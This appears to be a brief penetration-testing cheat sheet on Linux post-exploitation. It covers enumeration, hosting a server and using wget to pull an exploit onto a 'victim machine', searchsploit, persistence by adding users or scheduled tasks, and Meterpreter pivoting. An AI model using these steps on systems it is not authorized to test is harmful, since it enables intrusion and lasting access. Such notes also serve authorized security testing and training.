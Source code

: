 # Linux Post Exploitation


## Enumeration

    uname -a
       
    ps -aux 
    
    
  - [LinEnum](https://github.com/rebootuser/LinEnum)  
  
         <hostshare>/Tools/Exploit/Discovery
          
          
  - [Local Linux Enumeration](https://www.rebootuser.com/?p=1623)
  
  
  See what sudo commands you can run
  
       sudo -l

   
## Downloading files

    python -m SimpleHTTPServer  #Host the web server
      wget <IP>:8000/exploit     # Download to victim machine

    python -m pyftpdlib 21      #Host ftp server
      ftp <IP>
      
## Exploit

    searchsploit <linux kernel version>
   
    searchsploit <linux version>
    
## Privilege Escalation

[Privilege Escalation Cheatsheet ](https://www.rebootuser.com/?p=1623)




   
 
 ## Maintain persistence

  - Add user
  

  - Metasploit


  - Set a scheduled task
  
  
## Pivoting

 If pwnd target has a connection to a network that we do not have a connection to, we can set up a route on the machine to forward our traffic 
 
   - Meterpreter 
   
         run autoroute -s <target network seen via enumeration>/CIDR
         
         run autoroute -p   #to confirm
         
       you can now test by pinging a device on the remote network

